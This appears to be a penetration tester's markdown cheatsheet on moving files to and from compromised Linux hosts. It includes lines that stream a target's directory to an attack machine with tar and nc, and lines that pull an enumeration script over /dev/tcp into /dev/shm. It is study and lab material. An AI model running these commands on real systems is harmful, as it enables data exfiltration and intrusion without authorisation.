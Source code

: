 # Linux File Transfers


## Utilities

```bash
curl http://$IP/$file -o $file
wget http://$IP/$file
```

`scp` from [[SSH-Cheatsheet]]
```bash
# Copy a local file to remote host 
scp <file> <user>@<host>:<dest>

# dump user directory with wildcard *
scp -i id_rsa user@10.10.10.10:* . 

# To copy a file from a remote server to your local machine:
scp -P $portnumber <user>@<host>:<src> <dest>

# To scp a file over a SOCKS proxy on localhost and port 9999 (see ssh for tunnel setup):
scp -o "ProxyCommand nc -x 127.0.0.1:9999 -X 4 %h %p" <file> <user>@<host>:<dest>

# To scp between two remote servers from the third machine:
scp -3 <user>@<host1>:<src> <user>@<host2>:<dest>
```

## Bash Redirection

Check `mount` if /`dev/shm/` has `no exec`, this is just an example
```bash
# Use nc to serve the file
nc -lvnp 80 < LinEnum.sh
# Target machine
mount | grep shm
bash -c "cat < /dev/tcp/$IP/$PORT > /dev/shm/LinEnum.sh"
```
[Ippsec Reddish Video](https://www.youtube.com/watch?v=Yp4oxoQIBAM)

## Ncat | Nc

Target machine
```bash
tar cf - . | nc $IP $PORT
```
Attack machine
```bash
ncat -nlvp $PORT | tar xf -
```

## Socat

Use [[Socat]], Host with:
```bash
sudo socat TCP4-LISTEN:$PORT,fork file:$filename
```
Transfer with
```powershell
socat TCP4:$IP:$PORT file:$filename,create
```


## SMB Cif-Utils

```shell
sudo mount -t cifs -o 'user=$username,password=$password' //$IP/share /mnt/sharename
```

[Kali Cif-Utils](https://www.kali.org/tools/cifs-utils/)


## References

[Ippsec Reddish Video](https://www.youtube.com/watch?v=Yp4oxoQIBAM)
[Kali Cif-Utils](https://www.kali.org/tools/cifs-utils/)
